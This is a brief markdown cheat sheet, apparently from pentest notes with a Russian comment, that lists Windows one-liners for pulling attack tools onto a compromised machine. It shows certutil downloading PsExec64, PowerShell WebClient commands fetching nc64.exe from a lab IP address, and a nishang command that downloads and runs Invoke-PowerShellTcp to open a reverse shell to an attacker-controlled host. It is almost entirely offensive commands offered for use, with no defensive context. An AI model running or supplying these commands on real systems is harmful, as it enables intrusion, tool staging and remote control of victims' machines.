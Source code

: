 # Windows

## cmd

```
certutil -urlcache -f -split https://live.sysinternals.com/PsExec64.exe
```

## powershell

```powershell
IEX(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
> или через pipe
```powershell
echo IEX(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe') | powershell -noprofile
```

> nishang
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
